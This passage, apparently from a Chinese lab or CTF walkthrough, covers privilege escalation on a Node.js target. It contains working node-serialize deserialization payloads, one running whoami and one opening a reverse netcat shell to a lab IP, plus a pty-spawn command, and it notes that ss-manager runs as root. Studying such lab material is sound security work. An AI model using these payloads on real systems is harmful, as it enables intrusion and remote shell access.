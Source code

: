 二、提权

![](https://mmbiz.qpic.cn/mmbiz_png/M39rvicGKTibrmYlY2VW5XChia77yhteBC7iarNdYSwicq64NZrCHeSZqRpsFRTZkpfgclSWaibqftONNMWLkz6QjyoQ/640?wx_fmt=png)

参考链接后，可以学习到怎么去提权...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOePhs3TQdVSUm8UBtKvwPicF4ouNyN6WibJaM1wibBZjmQLyxX5hqGvjNQWoIehqDNrpIjJ7Ovs2s5g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOePhs3TQdVSUm8UBtKvwPic9Hk4vfFOhibPUgicJomDYwLg6cmGtibhic9FlC0LmpeMWjfTBiaUY4lchWw/640?wx_fmt=png)

```
{"username":"_ND_FUNC_function(){return require('child_process').execSync('whoami',(e,out,err)=>{console.log(out);}); }()"}
```

```
_  ND_FUNC  _ function（）：在本地执行一个函数
child_process是node.js中的一个模块，它以类似于popen（3）的方式生成子进程。
child_process.exec（）方法：此方法在控制台中运行命令并缓冲输出
（上面框架的命令可以套用...遇到反序列化漏洞，上面美元符号不能打...报错...)
它指定字符串Shell执行命令（在UNIX上默认：'/ bin / sh'）
```

制作的 Shell 可以知道 Linux 系统上的当前用户是谁，编码进行转发....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOePhs3TQdVSUm8UBtKvwPicuzoqUhhOAFc9xH2ZVRdkhqKzLAibnxk87qCMlQfHxLwWeEhss7MJmsA/640?wx_fmt=png)

当前用户为 nodeadmin......

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOePhs3TQdVSUm8UBtKvwPicrkNvL2kasFkGEB7AguO2UR7nrN08uWcLsmA43hicliak4pEGxJp1QbIQ/640?wx_fmt=png)

我们执行 ls -lart 查找下目录底层信息看看...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOePhs3TQdVSUm8UBtKvwPic5SXofYGvXNbZwN8CmBX1lxaP9QWibzc3Cp7aFh0YKceXVnKtRRMgTtQ/640?wx_fmt=png)

这边直接创建 nc 对 / bin/bash 输入开启服务...（反向 netcat shell 命令）

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOePhs3TQdVSUm8UBtKvwPicotH98vmy6pzDDSkyzCx4r90bAv3sNcR2Oj6ic3nova1yuvdyncrvnuQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOePhs3TQdVSUm8UBtKvwPicTe2Uj3aXElHHeXlwdrT9gVWCxCRjKcjsiadXqEdOMk9JiaysmTPhQpGg/640?wx_fmt=png)

```
命令：{"username":"_$$ND_FUNC_function(){return require('child_process').execSync('nc -e /bin/bash 192.168.56.103 6666',(e,out,err)=>{console.log(out);}); }()"}
python -c 'import pty;pty.spawn("/bin/bash")'  （进入tty shell ）
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOePhs3TQdVSUm8UBtKvwPic0gXIwMVxspCtmWP88eGJpApiaVCRHYrpkT98x0Bxgkib1jEhAmrWuanw/640?wx_fmt=png)

没有权限进入 fireman 目录...

看看 fireman 是否有 root 权限去运行它...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOePhs3TQdVSUm8UBtKvwPic1YjrWk7rK9KL1Awgf11ibRkBZSGQxgBiauxa9lkMaUCGUxV5MOuAJVbQ/640?wx_fmt=png)

ss-manager 是作为根来运行的...ss-manager 容易受到远程代码执行的影响...
